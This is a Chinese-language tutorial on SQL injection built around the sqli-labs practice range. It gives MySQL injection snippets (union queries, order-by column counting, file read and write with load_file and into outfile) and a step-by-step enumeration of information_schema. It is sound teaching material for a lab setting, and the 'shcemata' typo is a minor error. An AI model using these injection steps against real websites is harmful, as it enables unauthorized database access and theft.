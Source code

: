 # SQL注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 环境需求
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[SQLi在线靶场](https://sqli-labs.htctf.com/)、[SQLi Github](https://github.com/Audi-1/sqli-labs)、Docker(镜像)、Hackbar插件、域名采集器、Google Hack
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;docker run -dt --name sqli -p 80:80 --rm acgpiano/sqli-labs
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;docker exec -it imageID /bin/bash
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;run 运行 -dt 守护进程 --name 别名 --rm 停止运行删除进程
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 关于SQLi
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**SQL:** 是一门ANSI标准的计算机语言，用来**访问**和**操作**数据库系统，SQL语句用来取回和更新数据库中的数据
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**原因:** 开发人员对从web表单、cookie、输入参数等收到的值传递给SQL查询之前进行过滤控制
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**原理:** SQL代码插入或添加到应用(用户)的输入参数中，并且参数在后台SQL服务器中解析和执行
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**危害:** 获取数据库内容、读取文件信息、Getshell(root权限)
![](/assets/QQ20190218-174536@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 查看数据库类型
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**代码查询**:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**报错显示**:
![](/assets/QQ20190218-181926@2x.png)
![](/assets/QQ20190218-181837@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 常用代码
```sql
    数据库: database()       数据库版本: version()
    用户: user()
                 
    查询列数: order by,采用二分法
    联合查询: union,注意列数匹配
    连接函数: concat(),concat_ws(),group_concat()，前两者返回一个数据，后者返回数列
    
    写文件: into outfile PATH，函数前构建文件   
    读文件: load_file(PATH)  
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x05 常规流程(MySQL)
```sql
    判断注入点: '  and 1=1/2  or 1=1/2,看页面反馈,但是使用or判断时,要设置为错误参数
    查询列数: order by 
    核心注入句:
        查库: select schema_name from information_schema.shcemata
        查表: select table_name from information_schema.tables where table_schema='库名'
        查列: select column_name from information_schema.columns where table_name='表名'
        查数据: select 列 from 库名.表名
```








